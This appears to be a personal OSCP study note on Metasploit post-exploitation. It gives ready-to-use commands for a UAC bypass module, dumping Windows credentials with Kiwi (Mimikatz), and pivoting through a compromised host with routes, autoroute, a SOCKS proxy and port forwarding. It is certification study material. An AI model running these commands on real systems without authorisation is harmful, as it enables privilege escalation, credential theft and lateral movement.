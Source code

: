```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/11-metasploit-framework/6-post-exploitation-modules/"}
---
```


--------------
### UAC bypass:
- Review the integrity level of current process:
```
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
- Effective UAC bypass for modern Windows systems:
```
use exploit/windows/local/bypassuac_sdclt
set session <id>
set LHOST <localhost>
run
```

---------------
### Kiwi Credential Stealer:
- Requires privileges like Mimikatz
- In Meterpreter:
```
#Load module:
load kiwi

#Dump LM/NTLM creds:
creds_msv

#Dump all creds:
creds_all
```

-----------
### Meterpreter Port Forwarding:
```
route add <ip-or-range> <msfsessionid>
```
- Note: new shells on remote target through tunnel will only work if bind shells
- Example:
	route add 172.16.5.0/24 2

- Flush all routes:
```
route flush
```

- Auto-route module (recommended):
```
use multi/manage/autoroute
set session <id>
run
```

- SOCKS proxy module for tunnel outside of MSF:
	- Edit proxychains conf to port 1080 and win!
```
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
```

 - Meterpreter built-in port forward:
```
portfwd add -l <localport> -p <remoteport> -r <remoteip>
```
